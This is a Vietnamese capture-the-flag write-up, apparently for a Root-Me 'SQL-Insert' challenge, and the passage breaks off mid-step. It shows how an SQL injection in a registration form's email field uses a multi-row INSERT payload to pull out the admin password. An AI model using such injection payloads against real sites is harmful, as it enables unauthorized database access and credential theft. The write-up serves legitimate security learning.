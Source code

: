 # SQL-Insert

Point: 40

Request Insert: fun & profit

Statement: Retrieve the flag

Related ressource: [SQL injection in insert, update and delete statements](https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20SQL%20injection%20in%20insert,%20update%20and%20delete%20statements.pdf?_gl=1*jggomy*_ga*MTE0NDg5MTA5LjE2Nzk2MzIzMDY.*_ga_SRYSKX09J7*MTY4MjEyODY5NS41OC4xLjE2ODIxMjk4MzIuMC4wLjA.)

# Overview:

Form của challenge

![image](https://user-images.githubusercontent.com/115911041/233762097-617dc631-2eb0-46a2-8ee2-84c14a9ab232.png)

Challenge lần này cung cấp ta một form đăng kí và đăng nhập.Lấy được password admin là có được flag

Tên đề của bài này là INSERT, thì mình nghĩ sẽ có lien quan đến phần đăng kí

# Solution:

Đầu tien, tạo 1  account sau đó đi đăng nhập

 ```
 Username: admin
 Password: 123123
 Email: admin@gmail.com
 ```
![image](https://user-images.githubusercontent.com/115911041/233773209-e4fa2799-c554-4240-bb72-f66bb9bdb06c.png)

Kết quả hiển thị ra username và email. Ta có thể khai thác SQL ở phần này.Giờ mình sẽ thử giả lập lại phần đăng kí 

```
$username = $POST_['username'];
$password = $POST_['password'];
$email = $POST_['email'];

INSERT INTO example_table VALUES('$username','$password','$email');
```

Mình đã có thử một vài payload ở username thì nó bị filter nên mình sẽ chuyển sang email để khai thác.

Mình đã có đọc doc và nghiên cứu. Phát hiện ra mình có thể chèn payload kiểu như thế này

`INSERT INTO example_table (a,b,c) VALUES ('a','b','c'),('d','e','f')`

Mình sẽ thử mô phỏng cho các bạn dễ hiểu hơn 

```
$username = admin
$password = 123123
$email = c'),('d','e','f') -- -

INSERT INTO example_table (a,b,c) VALUES ('a','b','c'),('d','e','f') -- -
```

Vậy thì ta sẽ có công thức payload như sau
`email'),('username', 'password', 'payload') -- -`

Sau khi đã có phương pháp giải rồi, mình tạo 1 account mới với paload như trên

```
Username = admin1
Password = 123123123
email = 
